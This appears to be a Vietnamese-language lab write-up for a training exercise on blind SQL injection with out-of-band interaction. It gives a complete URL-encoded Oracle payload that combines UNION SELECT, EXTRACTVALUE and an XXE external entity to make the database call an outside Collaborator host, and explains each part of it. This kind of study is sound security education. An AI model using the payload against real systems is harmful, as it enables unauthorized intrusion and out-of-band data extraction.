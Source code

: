 1. **Lab 16: Blind SQL injection with out-of-band interaction**

<aside>
💡

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

</aside>

- Phân tích trang web:
Truy vấn SQL được thực hiện không đồng bộ (asynchronously), nghĩa là nó không ảnh hưởng đến phản hồi của trang web (không có độ trễ thời gian hay thông báo lỗi để khai thác)
Tuy nhiên, ta có thể khiến cơ sở dữ liệu tạo ra một tương tác ngoài băng tần (out-of-band interaction) với một máy chủ bên ngoài, chẳng hạn như một yêu cầu DNS lookup (tra cứu tên miền).
Ta sẽ dùng Burp Collaborator để tạo một tên miền tạm thời và phát hiện xem cơ sở dữ liệu có gửi yêu cầu DNS đến tên miền đó không.
- Mục tiêu: Khai thác lỗ hổng SQL Injection để khiến cơ sở dữ liệu gửi một yêu cầu DNS lookup đến tên miền của Burp Collaborator, chứng minh rằng ta có thể điều khiển truy vấn SQL
- **Bước 1: Sửa đổi cookie để gây ra DNS lookup**
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//6x4lkoh91v88ks2mtg6pihyy4pagy7mw.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`
Trong Burp Suite, nhấp chuột phải vào phần BURP-COLLABORATOR-SUBDOMAIN, chọn Insert Collaborator payload để chèn một tên miền tạm thời do Burp Collaborator tạo (ví dụ: [abc123.burpcollaborator.net](http://abc123.burpcollaborator.net/))
- Giải thích:
`EXTRACTVALUE(xmltype(...),'/l'):`
=> xmltype() chuyển một chuỗi XML thành đối tượng XML.
⇒ EXTRACTVALUE() trích xuất giá trị từ XML tại đường dẫn /l. Ở đây, nó được dùng để xử lý XML và kích hoạt tương tác ngoài băng tần
`<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "[http://BURP-COLLABORATOR-SUBDOMAIN/](http://burp-collaborator-subdomain/)"> %remote;]>:`
⇒ Đây là một đoạn XML kết hợp kỹ thuật XXE (XML External Entity):
⇒ <!ENTITY % remote SYSTEM "[http://BURP-COLLABORATOR-SUBDOMAIN/](http://burp-collaborator-subdomain/)"> định nghĩa một thực thể (entity) có tên remote, yêu cầu cơ sở dữ liệu tải tài nguyên từ URL [http://BURP-COLLABORATOR-SUBDOMAIN/](http://burp-collaborator-subdomain/)
⇒ %remote; gọi thực thể này, khiến cơ sở dữ liệu gửi yêu cầu HTTP đến URL đó.
⇒ Khi cơ sở dữ liệu xử lý XML này, nó sẽ cố gắng tải tài nguyên từ [http://BURP-COLLABORATOR-SUBDOMAIN/](http://burp-collaborator-subdomain/). Để làm điều này, nó phải thực hiện một DNS lookup để phân giải tên miền BURP-COLLABORATOR-SUBDOMAIN
- **Bước 2: Kiểm tra DNS lookup trong Burp Collaborator**
Trong Burp Suite, mở Burp Collaborator client để kiểm tra xem có yêu cầu DNS lookup nào đến tên miền ta đã chèn không.
Nếu có, ta đã thành công trong việc khai thác lỗ hổng.
- TÓM LẠI:
Dùng UNION SELECT để chèn truy vấn
Dùng kỹ thuật XXE (<!ENTITY % remote SYSTEM ...>) để yêu cầu cơ sở dữ liệu gửi một yêu cầu HTTP đến tên miền của Burp Collaborator
Yêu cầu HTTP này sẽ gây ra một DNS lookup, mà Burp Collaborator có thể phát hiện.
Kết quả: Ta gây ra một DNS lookup, chứng minh rằng lỗ hổng có thể khai thác được
